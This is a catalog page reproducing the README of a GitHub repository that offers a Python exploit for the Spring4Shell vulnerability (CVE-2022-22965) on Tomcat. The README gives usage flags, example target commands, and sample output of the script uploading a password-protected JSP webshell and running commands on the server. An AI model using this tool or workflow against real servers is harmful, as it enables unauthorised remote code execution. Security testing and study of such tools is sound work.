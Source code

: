# CVE-2022-22965

spring4shell | CVE-2022-22965

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/p1ckzi](https://github.com/p1ckzi) |
| Url      | [https://github.com/p1ckzi/CVE-2022-22965](https://github.com/p1ckzi/CVE-2022-22965)                                               |
| Stars    | 21                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve* cve-2022-22965* exploit* pentesting* spring-framework* tomcat

</details>

## Readme

# spring4shell ⭐
a python implementation of CVE-2022-22965 that provides a prompt to the user in the style of an ssh session.  
the script is designed to be easy to understand and execute, with both readability and accessbility - depending on the user's choice. Designed for exploiting the vulnerability on tomcat servers. The fileDateFormat field on the server will be set and unset as part of the script which allows the exploit to be run multiple times. Cleanup may be required.

## the exploit - CVE-2022-22965 ❗
vulnerability found in
the java spring framework before version 5.2, as well as in versions 5.3.0-17 and 5.2.0-19 and running on a version of the Java Development Kit greater than or equal to 9.
More info:  
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965

## prerequisites ✔
requests module and BeautifulSoup module are required for the exploit to run. these can be installed with:  
`pip3 install bs4`  
`pip3 install requests`  
all other modules are built into python3.
## usage ℹ
the script only requires the url of vulnerable server to run. however there are other flags for ease of access, etc.  
output of --help:
```
usage: spring4shell_v3.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] [-a] [-n] address

spring4shell_v3.py exploits an RCE vulnerability in
applications running spring core java framework.

positional arguments:
  address               ip/hostname, port, sub-directories to the vulnerable spring core framework on tomcat

optional arguments:
  -h, --help            show this help message and exit
  -f FILENAME, --filename FILENAME
                        name of the file to create and upload
  -p PASSWORD, --password PASSWORD
                        password to protect the uploaded shell
  -d DIRECTORY, --directory DIRECTORY
                        The upload path for the file
  -a, --accessible      turns off features which may negatively affect screen readers
  -n, --no-colour       removes colour output

example:
        spring4shell_v3.py http://10.10.10.10/
        spring4shell_v3.py http://hostname:8080/ -p 'password123'
        spring4shell_v3.py http://10.10.10.10/subdir/ -a -f 'jsp-shell'

```
***
example output:
```
./spring4shell http://spring-vuln.local

                /           /  |      /         / /                                                            
 ___  ___  ___    ___  ___ (___| ___ (___  ___ ( (                                                             
|___ |   )|   )| |   )|   )    )|___ |   )|___)| |                                                             
 __/ |__/ |    | |  / |__/    /  __/ |  / |__  | |                                                             
     |                __/                                                                                      
CVE-2022-22965.
[i] attempting to change tomcat log variables.
[+] log variables set successfully.
[+] attempting to change tomcat log location variables.
[+] log successfully modified.
[i] waiting for tomcat changes.
[i] sending the webshell.
[i] resetting the log variables.
[i] shell location:
[i] http://spring-vuln.local/20df2b10c787d5ae.jsp?pwd=bd72c5e8&cmd=whoami
[i] or run commands here. type 'exit' to quit.
spring4shell:service@spring-vuln.local $ whoami
service

spring4shell:service@spring-vuln.local $
```
## limitations ⚠
it goes without saying that the script does not provide the user with a full shell, but designed as a platform for achieving a full reverse shell, privesc, etc, on the target.  
The script attempts to harvest the user/service running the vulnerable server so that it can be used as part of the pseudo command prompt in the program, though this is not always reliable.
## notes 📝
the script was mainly an exercise in python scripting for a single exploit with both readability and accessibility in mind. designed for ease of use and understandability. attempts to handle common exceptions.
## credits 👍
https://skerritt.blog/a11y/ - accessibility implementation.



## Get the content

```
git clone https://github.com/p1ckzi/CVE-2022-22965
cd CVE-2022-22965
```

{% embed url="https://github.com/p1ckzi/CVE-2022-22965" %}

<figure><img src="https://avatars.githubusercontent.com/u/44880203?v=4" alt=""><figcaption><p>p1ckzi</p></figcaption></figure>

